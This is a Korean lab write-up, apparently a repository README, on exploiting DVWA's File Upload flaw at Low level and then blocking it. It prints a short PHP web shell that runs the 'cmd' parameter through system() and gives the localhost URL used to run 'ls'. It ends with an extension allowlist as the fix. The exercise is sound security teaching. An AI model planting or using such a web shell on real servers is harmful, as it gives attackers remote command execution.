

# DVWA 실습 - File Upload

## 실습 목적
DVWA의 Low 레벨 환경에서 File Upload 취약점을 확인하고, 공격자가 악성 파일을 업로드하여 서버에서 임의 명령어를 실행할 수 있는 상황을 재현한다.

## 공격 시도
아래는 공격자가 업로드한 간단한 PHP코드 예시이다 :

<?php
  if (isset($_GET['cmd'])) {
    system($_GET['cmd']);
  }
?> 

cmd 파라미터로 전달된 명령어를 서버에서 실행되도록 짠 코드이고,

위 코드는 실제로 `../modified-code/File Upload_Attack.php`에 있음

아래 사진과 같이 파일을 DVWA File Upload 페이지에서 업로드를 시도한다.

업로드 성공후, URL을 통해 cmd에 특정 명령어를 실행을 시도한다.

이번 실습에서 `http://127.0.0.1/dvwa/hackable/uploads/FU_attack.php?cmd=ls` 이렇게 ls 명령어를 실행해보겠다.

## 결과

위 사진처럼 ls 명령어 실행 결과가 브라우저에 출력되어, 이는 공격자가 서버로 원하는 명령어를 실행 가능하다는 것을 확인했다.

## 노트
File Upload 취약점은 서버가 사용자로부터 업로드된 파일을 검증없이 처리할 때 발생한다.

공격자는 .php 확장자를 가진 웹쉘을 업로드하여 서버측에 피해를 입힐 수 있다.

## 대응 코드 예시
수정된 PHP 코드 예시는 `../modified-code/File Upload_Protected.php`에 있음

허용된 확장자 (jpg,jpeg,png)로만 업로드 가능하게 제한을 했다.

## 대응 결과

위 사진과 같이 공격자가 PHP 웹셸 파일을 업로드 시도했지만, 이를 확장자 검사로 업로드를 차단했다.
